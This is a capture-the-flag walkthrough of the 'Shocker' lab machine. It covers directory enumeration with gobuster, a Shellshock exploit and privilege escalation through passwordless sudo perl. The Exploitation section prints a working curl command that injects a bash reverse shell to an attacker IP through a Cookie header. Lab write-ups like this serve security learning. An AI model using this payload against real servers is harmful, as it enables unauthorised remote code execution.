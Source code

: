 # Shocker

![Machine Information](./info_card.png)

## Initial Enumeration

As always, we start with a nmap scan. The results for this box are pretty short with only two services running: http and ssh.

![Nmap Results](./nmap.png)

No immediate exploits came up when searching the versions of apache or openssh, so we'll continue on and enumerate the web service. going directly to port 80 in our browser doesn't bring up anything interesting, just a page with a little text and an image:

![](./webpage.png)

With as always with web applications, we start up a directory buster to see what else is hiding in there. I'll use the following command for our initial search:

```bash
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x html,php,txt -t 50
```

![Gobuster Results](./initial_gobuster.png)

Everything in here looks pretty standard, but `/cgi-bin` is definitely something we want to check out. This is a directory where sysadmins can place scripts to be executed. That means we could find php, python, bash, etc scripts in here that we could abuse. Lets dig deeper into this directory with another gobuster scan, this time with a more extensive extension check.

```bash
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x py,sh,php,js -t 50
```

![CGI-Bin Gobuster Results](./cgi_gobuster.png)

If we curl the url for `user.sh` we get the following:

![Curling user.sh](./user_sh.png)

## Exploitation 

Because this box is rated as easy, there is a shell script in the `cgi-bin` directory, **and** the name is `shocker` shellshock is a good bet. We can test this by adding a malicious HTTP Header with curl and execute a reverse shell:

```bash
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.12/4443 0>&1' http://10.10.10.56/cgi-bin/user.sh
```

![Catching Reverse Shell](./reverse.png)

This gives a user shell and we are able to get the `user.txt` flag. Now time for some privesc.

{% hint style="info" %}
If you want to learn more about shellshock, this was a great and quick read: https://fedoramagazine.org/shellshock-how-does-it-actually-work/
{% endhint %}

## Privilege Escalation

As would be expected from a box rated easy, the path to root is quite simple. As with every box, the first thing I do is run `sudo -l` to see if our current user has sudo access **without** specifying a password. Lo and behold, we strike gold:

![Password-less Sudo Permissions](./sudo.png)

Using the perl interpreter with sudo access, we can start a `/bin/bash` process as the root user and obtain the root flag:

![Escalating to Root](./root.png)
